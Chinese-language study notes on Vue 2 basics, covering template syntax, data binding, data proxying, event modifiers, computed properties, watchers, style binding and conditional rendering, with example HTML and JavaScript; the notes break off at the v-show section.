



# Vue 学习笔记

---

# 第一章 Vue 基础

## 1.1 初识 Vue

```html
<!-- 准备好一个容器 -->
<div id="demo">
	<h1>Hello，{{name.toUpperCase()}}，{{address}}</h1>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	// 创建 Vue 实例
	new Vue({
		el: "#demo", // el 用于指定当前 Vue 实例为哪个容器服务，值通常为 css 选择器字符串。
		data: {
			// data 中用于存储数据，数据供 el 所指定的容器去使用，值我们暂时先写成一个对象。
			name: "atguigu",
			address: "北京",
		},
	});
</script>
```

初识 Vue：

1. 想让 Vue 工作，就必须创建一个 Vue 实例，且要传入一个配置对象
2. root 容器里的代码依然符合 html 规范，只不过混入了一些特殊的 Vue 语法
3. root 容器里的代码被称为【Vue 模板】
4. 容器和 Vue 实例一一对应
5. 真实开发中只有一个 Vue 实例，并且会配合着组件一起使用
6. {{XXXX}} 中的 XXXX 要写 js 表达式，且 XXXX 可以自动读取到 data 中的所有属性
7. 一旦 data 中的数据发生改变，那么模板中用到该数据的地方也会自动更新

注意区分 js 表达式 和 js 代码（语句）：

1. 表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方

   1. a
   2. a+b
   3. demo(1)
   4. x === y ? 'a' : 'b'

2. js 代码（语句）
   1. if(){}
   2. for(){}

## 1.2 Vue 模板语法

Vue 模板语法有 2 大类：

1. 插值语法：
   - 功能：用于解析标签体内容。
   - 写法：{{xxx}}，xxx 是 js 表达式，且可以直接读取到 data 中的所有属性。
2. 指令语法：
   - 功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）。
   - 举例：v-bind: href="xxx" 或 简写为 : href="xxx"，xxx 同样要写 js 表达式，且可以直接读取到 data 中的所有属性。
   - 备注：Vue 中有很多的指令，且形式都是：v-????，此处我们只是拿 v-bind 举个例子。

## 1.3 Vue 数据绑定

Vue 中有 2 种数据绑定的方式：

1. 单向绑定(v-bind)：数据只能从 data 流向页面。
2. 双向绑定(v-model)：数据不仅能从 data 流向页面，还可以从页面流向 data。

备注：

1. 双向绑定一般都应用在表单类元素上（如：input、select 等）
2. v-model: value 可以简写为 v-model，因为 v-model 默认收集的就是 value 值。

```html
<div id="root">
	<!-- 普通写法 -->
	<!-- 单向数据绑定：<input type="text" v-bind: value="name"><br> -->
	<!-- 双向数据绑定：<input type="text" v-model: value="name"><br> -->

	<!-- 简写 -->
	单向数据绑定：<input type="text" :value="name" /><br />
	双向数据绑定：<input type="text" v-model="name" /><br />

	<!-- 如下代码是错误的，因为 v-model 只能应用在表单类元素（输入类元素）上 -->
	<!-- <h2 v-model: x="name">你好啊</h2> -->
</div>

<script type="text/javascript">
	Vue.config.productionTip = false;

	new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
		},
	});
</script>
```

## 1.4 el 与 data 的两种写法

```html
<div id="root">
	<h1>你好，{{name}}</h1>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false;

	// el 的两种写法
	// const v = new Vue({
	//     el: '#root', // 第一种写法
	//     data: {
	//         name: '尚硅谷'
	// } // })    // console.log(v)    // v.$mount('#root') // 第二种写法

	// data 的两种写法
	new Vue({
		el: "#root",
		// data 的第一种写法，对象式
		// data:{
		//     name:'尚硅谷'
		// }
		// data 的第二种写法，函数式
		data: function () {
			console.log("@@@", this); // 此处的 this 是 Vue 实例对象
			return {
				name: "尚硅谷",
			};
		},
	});
</script>
```

data 与 el 的 2 种写法

1. el 有 2 种写法
   - new Vue 时候配置 el 属性。
   - 先创建 Vue 实例，随后再通过 `vm.$mount('#root')` 指定 el 的值。
1. data 有 2 种写法
   - 对象式
   - 函数式
   - 如何选择：目前哪种写法都可以，以后学习到组件时，data 必须使用函数式，否则会报错。
1. 一个重要的原则：
   - 由 Vue 管理的函数，一定不要写箭头函数，一旦写了箭头函数，this 就不再是 Vue 实例了。

## 1.5 MVVM 模型

1. M：模型（Model）：对应 data 中的数据
2. V：视图（View）：模板
3. VM：视图模型（ViewModel）：Vue 实例对象



MVVM 模型

1. M：模型(Model) ：data 中的数据
2. V：视图(View) ：模板代码
3. VM：视图模型(ViewModel)：Vue 实例

观察发现：

1. data 中所有的属性，最后都出现在了 vm 身上。
2. vm 身上所有的属性 及 Vue 原型上所有属性，在 Vue 模板中都可以直接使用。

```html
<!-- 准备好一个容器-->
<div id="root">
	<h1>学校名称：{{name}}</h1>
	<h1>学校地址：{{address}}</h1>
	<!-- <h1>测试一下 1：{{1+1}}</h1>
    <h1>测试一下 2：{{$options}}</h1>
    <h1>测试一下 3：{{$emit}}</h1>
    <h1>测试一下 4：{{_c}}</h1> -->
</div>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
			address: "北京",
		},
	});
	console.log(vm);
</script>
```

## 1.6 数据代理

### 1.6.1 回顾 Object.defineProperty 方法

```html
<script type="text/javascript">
	let number = 18;
	let person = {
		name: "张三",
		sex: "男",
	};

	Object.defineProperty(person, "age", {
		// value:18,
		// enumerable: true, // 控制属性是否可以枚举，默认值是 false
		// writable: true, // 控制属性是否可以被修改，默认值是 false
		// configurable: true // 控制属性是否可以被删除，默认值是 false

		// 当有人读取 person 的 age 属性时，get 函数(getter)就会被调用，且返回值就是 age 的值
		get() {
			console.log("有人读取 age 属性了");
			return number;
		},

		// 当有人修改 person 的 age 属性时，set 函数(setter)就会被调用，且会收到修改的具体值
		set(value) {
			console.log("有人修改了 age 属性，且值是", value);
			number = value;
		},
	});

	// console.log(Object.keys(person))

	console.log(person);
</script>
```

### 1.6.2 何为数据代理

```html
<!-- 数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）-->
<script type="text/javascript">
	let obj = {
		x: 100,
	};
	let obj2 = {
		y: 200,
	};

	Object.defineProperty(obj2, "x", {
		get() {
			return obj.x;
		},
		set(value) {
			obj.x = value;
		},
	});
</script>
```

### 1.6.3 Vue 中的数据代理

```html
<div id="root">
	<h2>学校名称：{{name}}</h2>
	<h2>学校地址：{{address}}</h2>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
			address: "宏福科技园",
		},
	});
</script>
```

1. Vue 中的数据代理：
   - 通过 vm 对象来代理 data 对象中属性的操作（读/写）
2. Vue 中数据代理的好处：
   - 更加方便的操作 data 中的数据
3. 基本原理：
   - 通过 `Object.defineProperty()` 把 data 对象中所有属性添加到 vm 上。
   - 为每一个添加到 vm 上的属性，都指定一个 getter/setter。
   - 在 getter/setter 内部去操作（读/写）data 中对应的属性。



## 1.7 事件处理

### 1.7.1 事件处理的基本使用

**事件的基本使用**：

1. 使用 `v-on: xxx` 或 `@xxx` 绑定事件，其中 xxx 是事件名；
2. 事件的回调需要配置在 `methods` 对象中，最终会在 vm 上；
3. `methods` 中配置的函数，==不要用箭头函数==！否则 this 就不是 vm 了；
4. `methods` 中配置的函数，都是被 Vue 所管理的函数，this 的指向是 vm 或 组件实例对象；
5. `@click="demo"` 和 `@click="demo($event)"` 效果一致，但后者可以传参；

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2>欢迎来到{{name}}学习</h2>
		<!-- <button v-on: click="showInfo">点我提示信息</button> -->
		<button @click="showInfo1">点我提示信息 1（不传参）</button>
		<button @click="showInfo2($event,66)">点我提示信息 2（传参）</button>
	</div>

	<script type="text/javascript">
		Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el: "#root",
			data: {
				name: "尚硅谷",
			},
			methods: {
				showInfo1(event) {
					// console.log(event.target.innerText)
					// console.log(this) // 此处的 this 是 vm
					alert("同学你好！");
				},
				showInfo2(event, number) {
					console.log(event, number);
					// console.log(event.target.innerText)
					// console.log(this) // 此处的 this 是 vm
					alert("同学你好！！");
				},
			},
		});
	</script>
</body>
```

### 1.7.2 事件修饰符

**Vue 中的事件修饰符**：

1. `prevent`：阻止默认事件（常用）；
2. `stop`：阻止事件冒泡（常用）；
3. `once`：事件只触发一次（常用）；
4. `capture`：使用事件的捕获模式；
5. `self`：只有 `event.target` 是当前操作的元素时才触发事件；
6. `passive`：事件的默认行为立即执行，无需等待事件回调执行完毕；

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>事件修饰符</title>
		<!-- 引入 Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
		<style>
			* {
				margin-top: 20px;
			}

			.demo1 {
				height: 50px;
				background-color: skyblue;
			}

			.box1 {
				padding: 5px;
				background-color: skyblue;
			}

			.box2 {
				padding: 5px;
				background-color: orange;
			}

			.list {
				width: 200px;
				height: 200px;
				background-color: peru;
				overflow: auto;
			}

			li {
				height: 100px;
			}
		</style>
	</head>

	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>欢迎来到{{name}}学习</h2>
			<!-- 阻止默认事件（常用） -->
			<a href="http://www.atguigu.com" @click.prevent="showInfo"
				>点我提示信息</a
			>

			<!-- 阻止事件冒泡（常用） -->
			<div class="demo1" @click="showInfo">
				<button @click.stop="showInfo">点我提示信息</button>
				<!-- 修饰符可以连续写 -->
				<!-- <a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a> -->
			</div>

			<!-- 事件只触发一次（常用） -->
			<button @click.once="showInfo">点我提示信息</button>

			<!-- 使用事件的捕获模式 -->
			<div class="box1" @click.capture="showMsg(1)">
				div1
				<div class="box2" @click="showMsg(2)">div2</div>
			</div>

			<!-- 只有 event.target 是当前操作的元素时才触发事件； -->
			<div class="demo1" @click.self="showInfo">
				<button @click="showInfo">点我提示信息</button>
			</div>

			<!-- 事件的默认行为立即执行，无需等待事件回调执行完毕； -->
			<ul @wheel.passive="demo" class="list">
				<li>1</li>
				<li>2</li>
				<li>3</li>
				<li>4</li>
			</ul>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

		new Vue({
			el: "#root",
			data: {
				name: "尚硅谷",
			},
			methods: {
				showInfo(e) {
					alert("同学你好！");
					// console.log(e.target)
				},
				showMsg(msg) {
					console.log(msg);
				},
				demo() {
					for (let i = 0; i < 100000; i++) {
						console.log("#");
					}
					console.log("累坏了");
				},
			},
		});
	</script>
</html>
```

### 1.7.3 键盘事件

1. Vue 中常用的按键别名：
   - 回车 => `enter`
   - 删除 => `delete` (捕获“删除”和“退格”键)
   - 退出 => `esc`
   - 空格 => `space`
   - 换行 => `tab` (特殊，==必须配合 `keydown` 去使用==)
   - 上 => `up`
   - 下 => `down`
   - 左 => `left`
   - 右 => `right`
2. Vue 未提供别名的按键，可以使用按键原始的 key 值去绑定，但注意要转为 kebab-case（短横线命名），如 `caps-lock`
3. 系统修饰键（用法特殊）：`ctrl、alt、shift、meta(win 键)`
   1. 配合 keyup 使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。
   2. 配合 keydown 使用：正常触发事件。
4. 也可以使用 keyCode 去指定具体的按键（不推荐）
5. ==Vue.config.keyCodes.自定义键名 = 键码==，可以去定制按键别名

```html
<!-- 准备好一个容器-->
<div id="root">
	<h2>欢迎来到{{name}}学习</h2>
	<input
		type="text"
		placeholder="按下回车提示输入"
		@keydown.huiche="showInfo"
	/>
</div>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。
	Vue.config.keyCodes.huiche = 13; // 定义了一个别名按键

	new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
		},
		methods: {
			showInfo(e) {
				// console.log(e.key,e.keyCode)
				console.log(e.target.value);
			},
		},
	});
</script>
```

## 1.8 计算属性

### 1.8.1 姓名案例\_插值语法实现

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		姓：<input type="text" v-model="firstName" /> <br /><br />
		名：<input type="text" v-model="lastName" /> <br /><br />
		全名：<span>{{firstName}}-{{lastName}}</span>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			firstName: "张",
			lastName: "三",
		},
	});
</script>
```

### 1.8.2 姓名案例\_methods 实现

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		姓：<input type="text" v-model="firstName" /> <br /><br />
		名：<input type="text" v-model="lastName" /> <br /><br />
		全名：<span>{{fullName()}}</span>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			firstName: "张",
			lastName: "三",
		},
		methods: {
			fullName() {
				console.log("@---fullName");
				return this.firstName + "-" + this.lastName;
			},
		},
	});
</script>
```

### 1.8.3 姓名案例\_计算属性实现

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		姓：<input type="text" v-model="firstName" /> <br /><br />
		名：<input type="text" v-model="lastName" /> <br /><br />
		测试：<input type="text" v-model="x" /> <br /><br />
		全名：<span>{{fullName}}</span> <br /><br />
		<!-- 全名：<span>{{fullName}}</span> <br/><br/>
        全名：<span>{{fullName}}</span> <br/><br/>
        全名：<span>{{fullName}}</span> -->
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			firstName: "张",
			lastName: "三",
			x: "你好",
		},
		methods: {
			demo() {},
		},
		computed: {
			fullName: {
				// get 有什么作用？当有人读取 fullName 时，get 就会被调用，且返回值就作为 fullName 的值
				// get 什么时候调用？1.初次读取 fullName 时。2.所依赖的数据发生变化时。
				get() {
					console.log("get 被调用了");
					// console.log(this) // 此处的 this 是 vm
					return this.firstName + "-" + this.lastName;
				},
				// set 什么时候调用? 当 fullName 被修改时。
				set(value) {
					console.log("set", value);
					const arr = value.split("-");
					this.firstName = arr[0];
					this.lastName = arr[1];
				},
			},
		},
	});
</script>
```

计算属性：

1. 定义：要用的属性不存在，要通过已有属性计算得来。
2. 原理：底层借助了 `Objcet.defineproperty` 方法提供的 `getter` 和 `setter`。
3. get 函数什么时候执行？
   1. 初次读取时会执行一次。
   2. 当依赖的数据发生改变时会被再次调用。
4. 优势：与 methods 实现相比，内部有缓存机制（复用），效率更高，调试方便。
5. 备注：
   1. 计算属性最终会出现在 vm 上，直接读取使用即可。
   2. 如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发生改变。

### 1.8.4 姓名案例\_计算属性简写

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		姓：<input type="text" v-model="firstName" /> <br /><br />
		名：<input type="text" v-model="lastName" /> <br /><br />
		全名：<span>{{fullName}}</span> <br /><br />
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			firstName: "张",
			lastName: "三",
		},
		computed: {
			// 完整写法
			/* fullName:{
                get(){
                    console.log('get 被调用了')
                    return this.firstName + '-' + this.lastName
                },
                set(value){
                    console.log('set',value)
                    const arr = value.split('-')
                    this.firstName = arr[0]
                    this.lastName = arr[1]
                }
 } */

			// 简写
			fullName() {
				console.log("get 被调用了");
				return this.firstName + "-" + this.lastName;
			},
		},
	});
</script>
```

## 1.9 监视属性

### 1.9.1 天气案例

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2>今天天气很{{info}}</h2>
		<!-- 绑定事件的时候：@xxx="yyy" yyy 可以写一些简单的语句 -->
		<!-- <button @click="isHot = !isHot">切换天气</button> -->
		<button @click="changeWeather">切换天气</button>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			isHot: true,
		},
		computed: {
			info() {
				return this.isHot ? "炎热" : "凉爽";
			},
		},
		methods: {
			changeWeather() {
				this.isHot = !this.isHot;
			},
		},
	});
</script>
```

### 1.9.2 天气案例\_监视属性

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2>今天天气很{{info}}</h2>
		<button @click="changeWeather">切换天气</button>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			isHot: true,
		},
		computed: {
			info() {
				return this.isHot ? "炎热" : "凉爽";
			},
		},
		methods: {
			changeWeather() {
				this.isHot = !this.isHot;
			},
		},
		/* watch:{
            isHot:{
                immediate: true, // 初始化时让 handler 调用一下
                // handler 什么时候调用？当 isHot 发生改变时。
                handler(newValue,oldValue){
                    console.log('isHot 被修改了',newValue,oldValue)
                }
            }
   } */
	});

	vm.$watch("isHot", {
		immediate: true, // 初始化时让 handler 调用一下
		// handler 什么时候调用？当 isHot 发生改变时。
		handler(newValue, oldValue) {
			console.log("isHot 被修改了", newValue, oldValue);
		},
	});
</script>
```

监视属性 `watch`：

1. 当被监视的属性变化时, 回调函数自动调用, 进行相关操作
2. ==监视的属性必须存在，才能进行监视！！==
3. 监视的两种写法：
   1. new Vue 时传入 `watch` 配置
   2. 通过 `vm.$watch` 监视

### 1.9.3 天气案例\_深度监视

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2>今天天气很{{info}}</h2>
		<button @click="changeWeather">切换天气</button>
		<hr />
		<h3>a 的值是:{{numbers.a}}</h3>
		<button @click="numbers.a++">点我让 a+1</button>
		<h3>b 的值是:{{numbers.b}}</h3>
		<button @click="numbers.b++">点我让 b+1</button>
		<button @click="numbers = {a:666,b:888}">彻底替换掉 numbers</button>
		{{numbers.c.d.e}}
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			isHot: true,
			numbers: {
				a: 1,
				b: 1,
				c: {
					d: {
						e: 100,
					},
				},
			},
		},
		computed: {
			info() {
				return this.isHot ? "炎热" : "凉爽";
			},
		},
		methods: {
			changeWeather() {
				this.isHot = !this.isHot;
			},
		},
		watch: {
			isHot: {
				// immediate: true, //初始化时让 handler 调用一下
				// handler 什么时候调用？当 isHot 发生改变时。
				handler(newValue, oldValue) {
					console.log("isHot 被修改了", newValue, oldValue);
				},
			},
			// 监视多级结构中某个属性的变化
			/* 'numbers.a':{
                handler(){
                    console.log('a 被改变了')
                }
 } */
			// 监视多级结构中所有属性的变化
			numbers: {
				deep: true,
				handler() {
					console.log("numbers 改变了");
				},
			},
		},
	});
</script>
```

**深度监视**：

1. Vue 中的 watch 默认不监测对象内部值的改变（一层）。
2. 配置 `deep: true` 可以监测对象内部值改变（多层）。

**备注**：

1. Vue 自身可以监测对象内部值的改变，但 Vue 提供的 watch 默认不可以！
2. 使用 watch 时根据数据的具体结构，决定是否采用深度监视。

### 1.9.4 天气案例\_监视属性\_简写

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2>今天天气很{{info}}</h2>
		<button @click="changeWeather">切换天气</button>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			isHot: true,
		},
		computed: {
			info() {
				return this.isHot ? "炎热" : "凉爽";
			},
		},
		methods: {
			changeWeather() {
				this.isHot = !this.isHot;
			},
		},
		watch: {
			// 正常写法
			/* isHot:{
                // immediate: true, // 初始化时让 handler 调用一下
                // deep: true,//深度监视
                handler(newValue,oldValue){
                    console.log('isHot 被修改了',newValue,oldValue)
                }
            }, */
			// 简写
			/* isHot(newValue,oldValue){
                console.log('isHot 被修改了',newValue,oldValue,this)
    } */
		},
	});

	// 正常写法
	/* vm.$watch('isHot',{
        immediate: true, // 初始化时让 handler 调用一下
        deep: true,//深度监视
        handler(newValue,oldValue){
            console.log('isHot 被修改了',newValue,oldValue)
        }
    }) */

	// 简写
	/* vm.$watch('isHot',(newValue,oldValue)=>{
        console.log('isHot 被修改了',newValue,oldValue,this)
    }) */
</script>
```

### 1.9.5 姓名案例\_watch 实现

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		姓：<input type="text" v-model="firstName" /> <br /><br />
		名：<input type="text" v-model="lastName" /> <br /><br />
		全名：<span>{{fullName}}</span> <br /><br />
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	const vm = new Vue({
		el: "#root",
		data: {
			firstName: "张",
			lastName: "三",
			fullName: "张-三",
		},
		watch: {
			firstName(val) {
				setTimeout(() => {
					console.log(this);
					this.fullName = val + "-" + this.lastName;
				}, 1000);
			},
			lastName(val) {
				this.fullName = this.firstName + "-" + val;
			},
		},
	});
</script>
```

`computed` 和 `watch` 之间的区别：

1. `computed` 能完成的功能，`watch` 都可以完成。
2. watch 能完成的功能，`computed` 不一定能完成，例如：`watch` 可以进行异步操作。

两个重要的小原则：

1. ==所有被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才是 vm 或 组件实例对象==。
2. ==所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数等、Promise 的回调函数），最好写成箭头函数，这样 this 的指向才是 vm 或 组件实例对象==。

## 1.10 绑定样式

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>绑定样式</title>
		<style>
			.basic {
				width: 400px;
				height: 100px;
				border: 1px solid black;
			}

			.happy {
				border: 4px solid red;
				background-color: rgba(255, 255, 0, 0.644);
				background: linear-gradient(30deg, yellow, pink, orange, yellow);
			}

			.sad {
				border: 4px dashed rgb(2, 197, 2);
				background-color: gray;
			}

			.normal {
				background-color: skyblue;
			}

			.atguigu1 {
				background-color: yellowgreen;
			}

			.atguigu2 {
				font-size: 30px;
				text-shadow: 2px 2px 10px red;
			}

			.atguigu3 {
				border-radius: 20px;
			}
		</style>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>

	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 绑定 class 样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
			<div class="basic" : class="mood" @click="changeMood">{{name}}</div>
			<br /><br />

			<!-- 绑定 class 样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
			<div class="basic" : class="classArr">{{name}}</div>
			<br /><br />

			<!-- 绑定 class 样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
			<div class="basic" : class="classObj">{{name}}</div>
			<br /><br />

			<!-- 绑定 style 样式--对象写法 -->
			<div class="basic" : style="styleObj">{{name}}</div>
			<br /><br />
			<!-- 绑定 style 样式--数组写法 -->
			<div class="basic" : style="styleArr">{{name}}</div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false;

		const vm = new Vue({
			el: "#root",
			data: {
				name: "尚硅谷",
				mood: "normal",
				classArr: ["atguigu1", "atguigu2", "atguigu3"],
				classObj: {
					atguigu1: false,
					atguigu2: false,
				},
				styleObj: {
					fontSize: "40px",
					color: "red",
				},
				styleObj2: {
					backgroundColor: "orange",
				},
				styleArr: [
					{
						fontSize: "40px",
						color: "blue",
					},
					{
						backgroundColor: "gray",
					},
				],
			},
			methods: {
				changeMood() {
					const arr = ["happy", "sad", "normal"];
					const index = Math.floor(Math.random() * 3);
					this.mood = arr[index];
				},
			},
		});
	</script>
</html>
```

绑定样式：

1. class 样式

   - 写法: class="xxx" xxx 可以是字符串、对象、数组。

     - 字符串写法适用于：类名不确定，要动态获取。
     - 对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
     - 数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。

2. style 样式
   - `:style="{fontSize: xxx}"`其中 xxx 是动态值。
   - `:style="[a, b]"`其中 a、b 是样式对象。

## 1.11 条件渲染

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h2>当前的 n 值是:{{n}}</h2>
		<button @click="n++">点我 n+1</button>
		<!-- 使用 v-show 做条件渲染 -->
		<!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
		<!-- <h2 v-show="1 === 1">欢迎来到{{name}}</h2> -->

		<!-- 使用 v-if 做条件渲染 -->
		<!-- <h2 v-if="false">欢迎来到{{name}}</h2> -->
		<!-- <h2 v-if="1 === 1">欢迎来到{{name}}</h2> -->

		<!-- v-else 和 v-else-if -->
		<!-- <div v-if="n === 1">Angular</div>
        <div v-else-if="n === 2">React</div>
        <div v-else-if="n === 3">Vue</div>
        <div v-else>哈哈</div> -->

		<!-- v-if 与 template 的配合使用 -->
		<template v-if="n === 1">
			<h2>你好</h2>
			<h2>尚硅谷</h2>
			<h2>北京</h2>
		</template>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false;

	const vm = new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
			n: 0,
		},
	});
</script>
```

条件渲染：

1. `v-if`

   - 写法：

     1. ==v-if="表达式"==
     2. ==v-else-if="表达式"==
     3. ==v-else="表达式"==

   - 适用于：切换频率较低的场景。
   - 特点：不展示的 DOM 元素直接被移除。
   - 注意：==`v-if` 可以和: `v-else-if`、`v-else` 一起使用，但要求结构不能被“打断”==。

2. `v-show`
